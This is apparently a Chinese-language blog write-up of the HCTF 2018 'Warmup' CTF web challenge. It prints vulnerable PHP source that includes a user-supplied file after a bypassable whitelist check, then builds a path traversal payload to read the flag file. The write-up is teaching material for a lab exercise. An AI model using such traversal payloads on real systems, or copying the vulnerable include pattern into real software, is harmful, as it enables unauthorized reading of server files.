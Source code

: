 ```yaml
---
title: HCTF 2018 Warmup
date: 2022-05-14 22:08:52
toc: false
tags:
- CTF
categories: CTF
my: HCTF2018_Warmup
---
```


进入题目只有一个滑稽  我们直接F12看源码发现有一个非常明显的提示 我们直接访问source.php

![image.png](https://s2.loli.net/2022/05/14/UJPSW2dD8os1lG5.png)

得到源码

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

新的提示！hint.php直接访问 （这也太直白了hhh）

![image.png](https://s2.loli.net/2022/05/14/SIdFDHzUeRYuQpa.png)

我们继续代码审计，下面这段代码的意思是source.php接收一个file参数，当file这个参数满足以下三个条件时返回file指定的文件，否则输出一张图片。

```php
if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
```

1. file参数不为空
2. file参数是一个string类型
3. file参数能够通过checkFile的检验

```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];//设定白名单
if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }
//如果file不存在或非字符串，输出"you can't see it"并返回false。


if (in_array($page, $whitelist)) {
                return true;
            }
//如果file参数在白名单中，返回true。访问 source.php?file=source.php 可以看到输出了两次页面源码，证明在这里返回了true。


$_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            $_page = urldecode($page);//上下部分完全相同
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

这段代码在 *$_page = urldecode($page);* 上下的部分都是完全一样的，只是为了防止用户传参时符号被urlencode而无法解析。它的作用是在用户传的file中，从开始截取到第一个问号处（不含问号），如果file中不存在问号，就在file后加一个。将截取后的字符串再与白名单做对比，如果可以就返回true。

我们可以可以通过访问 *source.php?file=source.php?* 来进行验证，这时可以看到页面源码只输出了一次，但并没有输出"you can't see it"，证明白名单检验通过，但source.php?这个文件是不存在的，所以没有任何输出

那么我们就可以利用这里来访问到根目录下的ffffllllaaaagggg

直接构造payload:

```
sosource.php?file=source.php?/../../../../ffffllllaaaagggg
```

在source.php?后加一个"/"这时source.php会被视为一个文件夹，后面每一级的".."意为上一层文件夹，通过不断尝试加入"../"最后可以知道具体的目录层级，以访问到ffffllllaaaagggg。

![image.png](https://s2.loli.net/2022/05/14/DrqKcUvBheYSZIk.png)
